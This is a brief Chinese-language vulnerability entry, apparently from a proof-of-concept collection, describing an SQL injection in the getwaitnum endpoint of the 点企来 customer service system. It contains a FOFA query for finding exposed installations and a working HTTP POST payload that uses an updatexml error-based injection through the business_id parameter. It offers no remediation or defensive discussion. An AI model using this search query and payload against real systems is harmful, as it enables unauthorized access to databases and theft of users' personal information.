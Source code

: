 # 点企来客服系统getwaitnum存在sql注入漏洞

点企来客服系统getwaitnum存在sql注入漏洞，攻击者未经授权可以访问数据库中的数据，盗取用户的隐私以及个人信息，造成用户的信息泄露。

## fofa

```yaml
body="layui-form-item" && body="/admin/login/check.html"
```

## poc

```java
POST /admin/event/getwaitnum HTTP/2
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Connection: keep-alive
Content-Length: 84
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate, br

business_id[]=exp&business_id[]=+and+updatexml(1,concat(0x7e,md5(0x5c)),1)&groupid=1
```

![image-20240823213038237](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408232130305.png)



## 漏洞来源

- https://mp.weixin.qq.com/s/unbf6JO5U9OAqdVq8YFbuQ